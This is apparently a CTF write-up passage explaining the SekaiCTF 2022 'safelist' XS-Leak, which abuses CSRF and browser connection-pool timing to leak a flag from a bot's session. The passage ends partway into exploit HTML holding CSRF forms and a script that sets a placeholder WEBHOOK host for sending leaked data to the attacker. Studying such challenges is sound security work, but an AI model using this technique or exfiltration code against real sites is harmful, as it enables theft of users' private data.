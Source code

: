 # Connection Pool Examples

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Sekaictf2022 - safelist

In the [**Sekaictf2022 - safelist**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/safelist/solution) challenge, [**@Strellic\_**](https://twitter.com/Strellic\_) gives an example of how to use a **variation** of the **Connection Pool** technique to perform a **XS-Leak**.

In this challenge, the goal is to exfiltrate a flag that will appear in the bots web session inside a post. These are the assets the attacker has:

* The **bot** will **visit** a **URL** given by the attacker
* The attacker can **inject HTML** in the page (but no JS, dompurify is used) abusing a **CSRF** making the **bot create a post** with that HTML.
* The attacker can abuse a CSRF to make the **bot** **delete** the **first** **post** inside the web.
* Because the **posts** are ordered **alphabetically**, when the **first post is deleted**, if the **HTML** content of the attacker is **loaded** means that it was **alphabetically before the flag**.

Therefore, to steal the flag, the solution proposed by @Strellyc\_ is to, **for each char to test** make the bot:

* Create a **new post** that **starts** with the known part of the **flag** and several **img** **loads**.
* **Delete** the **post** in position **0**.
* Block 255 sockets.
* Load the page with the posts
* Perform 5 random requests to a site (example.com in this case) and measure the time this takes.

{% hint style="warning" %}
If the **deleted** post was the **flag**, this means that all the **images** **injected** in the HTML are going to be **fighting** with the **5 random requests** for that **unblocked** socket. Which means that the time measured is going to be bigger than the other scenario.

If the **deleted** post was the **HTML**, the **5 random requests** will be **faster** because they don't need to fight for that socket with the HTML injected.
{% endhint %}

### Exploit 1

This is the exploit code, taken from [https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/web/safelist/solution/solve.html](https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/web/safelist/solution/solve.html):

```html
<!-- Form to inject HTML code in the bots page -->
<form method="POST" action="https://safelist.ctf.sekai.team/create" id="create" target="_blank">
    <input type="text" name="text" />
    <input type="submit" />
</form>

<!-- Form to delete the first entry -->
<form method="POST" action="https://safelist.ctf.sekai.team/remove" id="remove" target="_blank">
    <input type="text" name="index" value="0" />
    <input type="submit" />
</form>

<script>
    // Attacker listening
    const WEBHOOK = "https://WEBHOOK.com/";
    // Send data to attacker
    const log = (id, data) => {
```